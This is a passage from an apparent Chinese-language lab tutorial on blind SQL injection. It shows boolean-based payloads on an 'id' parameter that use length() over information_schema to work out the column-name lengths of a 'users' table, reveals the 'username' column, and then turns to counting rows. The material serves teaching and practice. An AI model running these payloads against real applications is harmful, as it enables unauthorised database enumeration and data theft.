 [![](assets/1707953831-ed6278254ba3392dd03d89357bdc2d0c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204192110-7f74e78a-c34f-1.png)  
再来判断每个列的长度

```bash
第一个列长度为 2
?id=1' and length((select  column_name from information_schema.columns where table_schema=database() and table_name = 'users' limit 0,1))=2 --+

第二个列长度为 8
?id=1' and length((select  column_name from information_schema.columns where table_schema=database() and table_name = 'users' limit 1,1))=8 --+

第三个列长度为 8
?id=1' and length((select  column_name from information_schema.columns where table_schema=database() and table_name = 'users' limit 2,1))=8 --+
```

再用同样的方法猜解列的名字，这里以第二个列为例，列名为 username  
[![](assets/1707953831-775cb5df4b79b67a75ecbcae870f875d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204192150-97354982-c34f-1.png)  
下面还是如法炮制，判断列中有多少数据，我们可以使用`count(*)`
